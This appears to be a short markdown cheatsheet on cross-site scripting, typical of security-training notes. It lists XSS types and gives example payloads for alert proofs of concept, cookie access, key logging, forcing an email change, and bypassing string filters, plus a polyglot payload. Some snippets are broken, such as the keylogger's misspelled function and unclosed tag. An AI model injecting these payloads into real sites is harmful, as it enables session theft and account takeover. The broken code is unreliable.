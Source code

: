 # XSS Cheatsheet
Cross-site scripting is executed in the browser on the client machine.  A simple proof of concept would look like:

## XSS Classifications
| Type | Location |
| ---- | -------- |
| Reflected | URL Paramaters |
| Stored | Database |
| DOM | Unsafe JS variables |
| Blind | Support Tickets / Emails |

Reflected XSS - URL Query parameters
Stored

```js
<script>alert('xss');</script>
```

## Session Stealing
Extract user cookies to be used for a sign in:
```js
<script>document.cookie</script>
```

## Key Logging
Capture user key presses:
```js
<script>
document.onkeypress = functio(e) {
    e.Key
}
<script>
```

## Business Logic
You may be able to access critical functions 
```js
<script>
user.updateEmail('malicious@bad.com');
</script>
```

## Bypass Techniques
Some fiters are trivial to bypass while others involve a deeper understanding of the code to exploit.

### String filters
A website can filter based on string matches such as `script`. In some cases we can evade this filter by duplicating the string.
```js
<sscriptcript>
    alert('xss');
</sscriptcript>
```

### Polygots
An attack that can bypass multiple filters in one go.
```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('EVIL') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('EVIL')"'
```
